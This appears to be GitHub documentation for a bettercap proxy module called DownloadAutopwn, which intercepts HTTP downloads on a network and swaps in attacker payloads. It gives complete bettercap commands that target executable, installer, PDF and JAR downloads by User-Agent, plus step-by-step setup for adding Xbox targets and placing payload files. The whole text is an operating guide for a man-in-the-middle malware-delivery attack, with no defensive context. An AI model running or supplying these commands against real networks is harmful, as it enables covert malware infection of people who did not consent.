 # DownloadAutopwn documentation

<br>

## Options

`--download-autopwn-extensions EXT1,EXT2`

`--download-autopwn-useragents AGENT1,AGENT2`

`--download-autopwn-path bettercap-proxy-modules/http/download_autopwn`

`--download-autopwn-port 8042`

**Example:**

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents windows,xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn --download-autopwn-port 8043
```

<br><br>


## Adding User-Agents

The `--download-autopwn-useragents` option scans for names of folders in the path that you specified with `--download-autopwn-path`.

Let's say we want to add an option for xbox User-Agents.

First, we make a new folder called **xbox** in our `--download-autopwn-path` directory.


**1.** `mkdir bettercap-proxy-modules/http/download_autopwn/xbox`

Next, we save our User-Agent string(s) in a file called **user-agents.bettercap**.
These strings will detect requests coming from xbox users.

After a quick Google search we find this User-Agent string:

**Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; Trident/6.0; Xbox; Xbox One)**

Looks like this string will do the trick: `Xbox`

**2.** `echo "Xbox" > bettercap-proxy-modules/http/download_autopwn/xbox/user-agents.bettercap`

**3.** Move your payload files to the folder that you just made.

![screenshot from 2017-08-02 14-45-37](https://user-images.githubusercontent.com/29265684/28858081-62799b8c-7791-11e7-9e61-3136a3d1f7ef.png)

**4. Done.**

Test out your new User-Agent config using the following command:

```
bettercap --proxy-module bettercap-proxy-modules/http/download_autopwn.rb --download-autopwn-extensions exe,msi,pdf,psd,jar --download-autopwn-useragents xbox --download-autopwn-path bettercap-proxy-modules/http/download_autopwn
```
